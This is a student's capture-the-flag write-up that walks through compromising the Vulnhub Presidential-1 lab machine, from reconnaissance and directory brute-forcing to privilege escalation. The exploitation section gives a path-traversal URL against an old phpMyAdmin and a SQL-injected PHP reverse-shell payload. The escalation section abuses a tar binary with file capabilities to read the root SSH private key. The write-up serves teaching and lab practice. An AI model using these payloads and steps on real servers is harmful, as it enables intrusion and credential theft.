




# Report Cybersecurity : Presidential Hacking
Simone Cossaro IN2000201

## Introduction

This report presents the steps taken to solve the Vulnhub CTF (Capture the Flag) challange called Presidential-1. 

The attack was carried out following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

In the presented scenario the US state is developing the registration website for the presidential elections and wants to test the security of the server before the website and registration system are launched. One of the political parties is concerned that the other political party is going to perform electoral fraud by hacking into the registration system and falsifying the votes.

The goal of the challenge is to gain root access to the server.

## Tools

VirtualBox is the tool needed for this challenge to run the following two virtual machines:
* the Presidential VM available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
The two virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. The shell command `netdiscover` automates the process of discovering live hosts on a network. Executing it will first allow us to find out if the presidential machine is connected to the network and if so what its IP address is. 

Once the IP address of the machine has been determined, we proceed by trying to identify the services and open ports and the software versions on it. The `nmap` command allows us to do this.

  

The scan shows that the machine is running a web service on port 80 with http protocol and a remote shell on port 2082 with ssh protocol.

## Enumeration

By visiting the main page of the web service on port 80, you will find an email address at the bottom (contact@votenow.local). This way we get a domain name: votenow.local.
It's possible to associate the domain name with the IP address by adding a line to the /etc/hosts file.

In this enumeration phase, the use of Gobuster, a tool for scanning directories and files on web servers, is essential. It is used to locate hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but may still be accessible.
The gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist such as potential directory, file, subdomain, etc., until it finds valid resources or runs out of options.

  

A config.php.bak file was detected. Usually these files contain a backup copy of the original config.php file. It in turn contains configuration information that may be important.
In fact, the file contains the user's credentials which could prove useful later.

## Exploiting

Using Gobuster, this time with the vhost option, subdomains can be found. With the dictionary used (/dirbuster/wordlists/directory-list-2.3-medium.txt) a single subdomain was found: datasafe.votenow.local.
On the web page that is obtained by connecting to the subdomain, there is an access panel to "phpMyAdmin". By entering the credentials obtained previously it is possible to log in and by navigating the page you can access a SQL database containing the hash of the password of an admin user.

The hash alone cannot be used. John the Ripper is a tool to use to crack the password. With the famous rockyou dictionary you can force the password corresponding to the hash, which turns out to be Stella.

Browsing the page another thing you can easily notice is that the version of phpMyAdmin is old. Searchsploit is a tool that can be used to search for known exploits and vulnerabilities in different versions of software and operating systems.
It turns out there are three vulnerabilities, one of which has command execution as impact. Searchsploit can give us more information about this vulnerability and how it can be exploited.
To exploit this vulnerability it is necessary to:
1) be authenticated
2) get the phpMyAdmin cookie
3) run a SQL query
4) edit the URL accurately.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by using the browser inspector and seeing what the value of the cookie named phpMyAdmin is.

On the web page we are allowed to execute SQL queries.

The normal functioning of the web application does not allow the interpretation and execution of code inserted in the backticks. However, by carefully structuring the URL and inserting a php script between backticks into a SQL query, it is possible to obtain the execution of the script.
The URL must have the following format:
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/ php/session/sess_{cookieValue}
where {cookieValue} is the cookie value of a current session.

By listening to a netcat listener on port 443 and then injecting a SQL query like this:
select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'
and by structuring the URL in the way illustrated, you obtain a reverse shell on the presidential machine.

At this point you can authenticate with the admin user credentials extracted previously.

## Privilege Escalation

The next step is to list the capabilities associated with the available executable files with the getcap command. this way we see that we have "+EP" in the tarS binary. This binary allows us to compress any file on the system without being root. Therefore, once compressed, we will only have to decompress it to be able to read the contents of the file.
There is an id_rsa file in the /root/.ssh/ directory. This file usually contains an RSA private key used for SSH authentication. This private key is associated with a public/private key pair and is used to authenticate the user on remote servers via SSH.
By having '+ep' we can compress the “id_rsa“ file, decompress it and gain visibility to the content.

The tarS -xvf id_rsa.tar /root/.ssh/id_rsa command creates a tar archive called id_rsa.tar containing the id_rsa file present in the /root/.ssh/ directory.

The tar -xvf id_rsa.tar command, however, extracts the files from the id_rsa.tar archive.

After executing these two commands, the id_rsa file can be read.

Now having the RSA private key, we can remotely connect to the shell on the presidential machine via the ssh protocol.

